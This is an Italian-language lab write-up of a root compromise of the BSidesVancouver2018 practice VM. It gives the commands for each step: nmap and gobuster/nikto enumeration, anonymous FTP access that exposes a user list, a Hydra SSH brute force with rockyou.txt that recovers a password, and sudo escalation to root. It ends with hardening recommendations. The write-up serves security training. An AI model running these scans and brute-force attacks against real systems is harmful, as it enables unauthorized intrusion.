

# 🔒 **Penetration Test Report - BSidesVancouver2018 VM**

---

## 🔍 **Obiettivo**
L'obiettivo era ottenere l'accesso **root** sulla macchina virtuale **BSidesVancouver2018**, partendo dalla scoperta dell'IP, enumerando i servizi esposti, sfruttando vulnerabilità e tecniche di brute-force.

---

## 🛠️ **Strumenti Utilizzati**
- **Nmap**: Scansione delle porte e dei servizi.
- **Gobuster**: Enumerazione directory HTTP.
- **Nikto**: Scansione vulnerabilità HTTP.
- **FTP**: Accesso anonimo.
- **Hydra**: Brute-force SSH.
- **Metasploit**: Tentativi di exploit per FTP.
- **Rockyou.txt**: Dizionario di password comuni.

---

## 📊 **1. Scoperta dell'IP del Target**
Utilizzando **nmap** per una scansione sulla rete locale, abbiamo identificato l'indirizzo IP del target:
```bash
sudo nmap -sn 192.168.1.0/24
```
**IP rilevato**: `192.168.1.63`

---

## 📈 **2. Scansione delle Porte e dei Servizi**
Eseguita una scansione dettagliata con **Nmap**:
```bash
sudo nmap -sS -sV -O 192.168.1.63
```
 
 

### **Risultati**:
| 🔗 Porta | ⚡ Servizio | 🔎 Versione            |
|-------|----------|---------------------|
| 21/tcp  | FTP      | vsftpd 2.3.5         |
| 22/tcp  | SSH      | OpenSSH 5.9p1 (Debian 7.10) |
| 80/tcp  | HTTP     | Apache 2.2.22 (Ubuntu)|

---

## 🌐 **3. Enumerazione HTTP (Porta 80)**

1. Visitando la pagina principale HTTP, abbiamo trovato un **WordPress obsoleto**.

2. **Enumerazione directory** con Gobuster:
   ```bash
   gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirb/common.txt
   ```
   **Risultati**:
   - `/robots.txt`
   - `/backup_wordpress/`


3. **Nikto Scan**:
   ```bash
   nikto -h http://192.168.1.63
   ```
   **Vulnerabilità riscontrate**:
   - **Apache 2.2.22 obsoleto**
   - Directory e file esposti (`robots.txt`, `/backup_wordpress/`).

 
---

 
## 🌐 **4. Accesso FTP (Porta 21)**

Accesso anonimo abilitato:
```bash
ftp 192.168.1.63
Username: anonymous
Password: <blank>
```

### **File trovato**:
- **users.txt.bk**
```bash
cat users.txt.bk
```
**Output**:
```
abatchy
john
mai
anne
doomguy
```
 
---

## 🛡️ **5. Tentativi di Exploit e WordPress Login**
 
 
1. **Accesso WordPress** con credenziali dell'utente `john`
2. Tentativo di caricare una **reverse shell** tramite plugin fallito.

3. **Scansione OpenSSH**:
   ```bash
   searchsploit openssh 5.9
   ```
   Nessun exploit diretto per RCE, ma tool utili per enumerazione utenti.

 ---

## 🛡️ **6. Brute-Force SSH con Hydra**

Sfruttando il file `users.txt.bk` e il dizionario `rockyou.txt`, abbiamo effettuato un attacco brute-force:
```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.63
```

### **Risultato**:
- 🔑 **Username**: `anne`
- 🔐 **Password**: `princess`

---

## 🔧 **7. Accesso SSH e Privilege Escalation**

1. Connessione SSH con le credenziali trovate:
   ```bash
   ssh anne@192.168.1.63
   Password: princess
   ```

2. Verifica privilegi sudo:
   ```bash
   sudo su
   ```
   **Risultato**: Accesso root ottenuto con successo.

---

## 💰 **Risultato Finale**
Accesso **root** completato. Verifica effettuata con:
```bash
whoami
id
```

---

## ⚙️ **Conclusioni**
Il test è stato completato con successo grazie a:
1. **Scansione Nmap** per individuare i servizi.
2. **Enumerazione** di WordPress e FTP.
3. **Brute-force SSH** con Hydra utilizzando credenziali deboli.
4. **Privilege Escalation** con `sudo su`.

---

## ✅ **Raccomandazioni**
1. **Aggiornare i servizi obsoleti**:
   - OpenSSH e Apache.
2. **Disabilitare l'accesso FTP anonimo**.
3. **Implementare chiavi SSH** invece di password semplici.
4. **Proteggere file di backup** come `users.txt.bk`.

---

